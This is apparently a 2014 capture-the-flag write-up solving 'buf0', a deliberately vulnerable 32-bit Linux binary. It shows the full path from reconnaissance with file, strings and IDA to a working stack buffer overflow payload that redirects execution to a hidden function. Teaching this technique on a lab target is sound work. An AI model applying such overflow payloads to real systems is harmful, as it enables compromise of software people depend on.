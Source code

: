 buf0 - A Buffer Overflow Challenge
==================================
date: 06/Jan/2014
summary: This is a buffer overflow challenge I found online. Although some people might find this to be a pretty easy exploit target, I thought of posting a writeup since it will still be someone's starting point into the jouney of exploitation.
tags: buffer overflow, writeups, reversing

The binary can be obtained from here: [buf0](/static/files/buf0.bin). Let's see what `file` command has to tell us about this challenge file:

```console
$ file buf0.bin
buf0.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3a0cbf6e6af7d4a5d1294f2ce18e80ad3e778d48, not stripped
```

So, this is an x86 ELF binary with symbols included. Let's run `strings` as well over this file:

```console
$ strings buf0.bin
/lib/ld-linux.so.2
j,O)
__gmon_start__
libc.so.6
_IO_stdin_used
gets
puts
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
W00T!
;*2$"
```

This is interesting. The binary is using `gets` syscall which is commonly exploited against buffer overflow vulnerabilities. There is a `W00T!` string as well which indicates that we need to exploit the binary and get this string printed. Before we execute this file, let's do some static analysis on it using IDA:

![image](/static/files/ida-start.png)

Apart from the standard libc defintions and `main`, I see an interesting function called `returnToMe` at location 0x08048404. Let's follow this function and see what is it doing:

![image](/static/files/ida-returntome.png)

Like I mentioned earlier, this is where the `W00T!` string is printed and as per the assumption, we need to leverage the overflow in a way that this function is called. Let's now run the binary and see how it behaves:

```console
$ ./buf0.bin
AAAAAAAAAAA
$
$ python -c 'print "A"*10' | ./buf0.bin
$ python -c 'print "A"*30' | ./buf0.bin
$ python -c 'print "A"*50' | ./buf0.bin
$ python -c 'print "A"*60' | ./buf0.bin
Segmentation fault (core dumped)
$
$ python -c 'print "A"*55' | ./buf0.bin
Segmentation fault (core dumped)
$ python -c 'print "A"*53' | ./buf0.bin
$ python -c 'print "A"*54' | ./buf0.bin
$ python -c 'print "A"*55' | ./buf0.bin
Segmentation fault (core dumped)
```

So, the binary accepts input through the `gets` syscall and is as such vulnerable to a classic stack-based buffer overflow. We do some trial-and-error to figure out the size of the buffer and it turns out to be 54B after which any extra byte would corrupt the stack metadata resulting in a `Segmentation fault (core dumped)` error. So, these 54B comprise of the following stack variables:

```console
50B (buf) + 4B (saved EBP)
```

The next 4B following saved EBP is the saved return address, EIP, and this is what we need to overwrite to achieve successful exploitation. For this challenge, the author wants us to overwrite EIP with the address of the `returnToMe` function but there are others ways of exploiting this as well:

1.  Injecting a 54B or less shellcode in the buffer and overwriting EIP
    with the start of the shellcode/NOP sled
2.  Injecting a bigger shellcode through an environment variable and
    overwriting EIP with it's address

But to keep things simple, let's just focus on how to complete the challenge by satisfying author's criteria. To know how to exploit such challenges using above steps please read my earlier post [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) and it's subsequent parts.

From the IDA screenshot above it is already known that the `returnToMe` function is at location 0x08048404. Let's exploit the binary with a random payload of 54B concatenated with this new return address:

```console
$ python -c 'print "A"*54 + "\x04\x84\x04\x08"' | ./buf0.bin
W00T!
```

Awesome! We get the required string printed, thus completing this challenge. Stay tuned for a post on a similar challenge.
